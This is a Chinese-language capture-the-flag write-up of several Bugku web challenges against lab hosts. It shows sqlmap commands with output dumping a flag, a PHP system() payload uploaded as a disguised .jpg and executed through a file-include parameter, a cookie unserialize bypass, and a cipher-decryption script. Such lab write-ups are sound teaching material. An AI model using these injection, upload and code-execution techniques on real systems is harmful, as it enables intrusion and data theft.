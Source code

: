 web部分的37-50题

# 这是一个神奇的登陆框

![这是一个神奇的登陆框](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/%E8%BF%99%E6%98%AF%E4%B8%80%E4%B8%AA%E7%A5%9E%E5%A5%87%E7%9A%84%E7%99%BB%E5%BD%95%E6%A1%86.png)

首先进行抓包，如上图所示，输入admin和123456，保存为1.txt，放在 E:\杂\c加加 目录下，然后用`sqlmap`进行注入。

```bash
# 使用下面的命令爆破出了数据库名称为 bugkusql1
sqlmap>sqlmap.py -r "E:\杂\c加加\1.txt" -p admin_name --dbs

# 结果
available databases [2]:
[*] bugkusql1
[*] information_schema
```

```bash
# 使用下面的命令进行爆表
sqlmap>sqlmap.py -r "E:\杂\c加加\1.txt" -D bugkusql1 -p admin_name --tables

# 结果
Database: bugkusql1
[2 tables]
+--------+
| flag1  |
| whoami |
+--------+
```

```bash
# 使用下面的命令爆列名
sqlmap>sqlmap.py -r "E:\杂\c加加\1.txt" -D bugkusql1 -T flag1 -p admin_name --columns

# 结果
Database: bugkusql1
Table: flag1
[1 column]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| flag1  | varchar(50) |
+--------+-------------+
```

```bash
# 使用下面的命令查字段

sqlmap>sqlmap.py -r "E:\杂\c加加\1.txt" -D bugkusql1 -T flag1 -C flag1 -p admin_name --dump

# 结果
Database: bugkusql1
Table: flag1
[1 entry]
+----------------------------------+
| flag1                            |
+----------------------------------+
| ed6b28e684817d9efcaf802979e57aea |
+----------------------------------+
```

爆出了flag。

# PHP_encrypt_1(ISCCCTF)

题目给了一段密文：fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=

还有一个压缩包，解压后发现了下面的php代码

```php
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) { 
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
```

写出相应的脚本如下，运行下面的解密代码即可得到flag

```python
import base64
import hashlib


def decrypt(b64):
    b64 = str(base64.b64decode(b64), encoding='utf8')  # base64转换后是byte类型数据
    key = 'ISCC'
    m = hashlib.md5()
    m.update(key.encode())
    md = m.hexdigest()
    b64_len = len(b64)
    x = 0
    char = ''
    for i in range(b64_len):  # strlen($str)==strlen($char)==strlen($data)
        if x == len(md):
            x = 0
        char += md[x]
        x += 1
    data = ''
    # 也可不进行正负判断：data += chr((ord(b64[i]) - ord(char[i])+128) % 128)
    for i in range(b64_len):
        d = ord(b64[i]) - ord(char[i])
        if d > 0:  # 进行判断，如果相减小于0，说明需要加上128
            data += chr(d)
        else:
            data += chr(d + 128)
    print(data)


if __name__ == "__main__":
    b64 = 'fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA='
    decrypt(b64)

```

# 文件包含2

查看源码，发现注释中有 upload.php 的提示，于是打开 http://123.206.31.85:49166/upload.php，发现是文件上传。

在php文件里写入 `<script language=php>system("ls")</script>` ，列当前目录，修改后缀名为jpg,如1.php;.jpg,上传成功，如下图所示：

![文件包含2](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB2.png)

访问 http://123.206.31.85:49166/index.php?file=upload/201911191206089664.jpg，提示我们：about hello.php index.php this_is_th3_F14g_154f65sd4g35f4d6f43.txt upload upload.php。

然后访问 http://123.206.31.85:49166/index.php?file=this_is_th3_F14g_154f65sd4g35f4d6f43.txt，得到flag

# flag.php

提示：hint，于是在URL后面加一个hint参数 http://123.206.87.240:8002/flagphp/?hint=1，得到了下面的php代码。变成一道代码审计题了，要我们在COOKIE字段中添加ISecer参数,值是$KEY序列化后的值。

**其中有三个地方需要注意：**

**1、需要用到cookie注入**

**2、cookie注入时的payload要用到反序列化**

**3、反序列化后还需要与$KEY类型相同，因为是“$KEY”，所以我们提交的cookie得是一个空字符串**

```php
<?php
error_reporting(0);
include_once("flag.php");
$cookie = $_COOKIE['ISecer'];
if(isset($_GET['hint'])){
    show_source(__FILE__);
}
elseif (unserialize($cookie) === "$KEY")
{   
    echo "$flag";
}
else {
?>

<?php
}
$KEY='ISecer:www.isecer.com';
?>
```

写个script，把$KEY序列化后的值打印出来

```php
<?php
  $KEY = '';
  $cookie = serialize($KEY);
  echo $cookie;
?>
```

运行上面的代码，输出：`s:0:"";` 然后进行burpsuite 抓包，如下图所示，得到了flag

![flag.php](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/flagphp.png)

# sql注入2

题目网站：http://123.206.87.240:8007/web2/

直接在后面加上 flag，即http://123.206.87.240:8007/web2/flag，然后下载了一个文件结果就是flag，但是不知道是什么原因，御剑没有扫出来。

# Trim的日记本

使用御剑扫描出来下面的结果，然后打开发现flag，竟然真的是flag

![Trim的日记本](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/Trim%E7%9A%84%E6%97%A5%E8%AE%B0%E6%9C%AC.png)